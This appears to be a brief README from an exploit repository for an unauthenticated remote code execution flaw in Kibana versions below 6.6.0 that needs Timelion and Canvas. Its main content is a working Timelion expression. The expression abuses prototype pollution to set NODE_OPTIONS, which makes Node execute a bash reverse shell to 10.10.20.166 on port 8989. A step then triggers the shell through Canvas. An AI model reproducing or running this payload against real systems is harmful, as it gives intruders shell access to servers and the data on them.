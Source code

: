 # kibana-RCE <6.6.0 未授权远程代码命令执行 (Need Timelion And Canvas)

![](./kibana_RCE.gif)


## 0x01 Timelion Run
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![](Timelion.jpg)

## 0x02 Click Canvas to getshell

![](./Canvas.jpg)

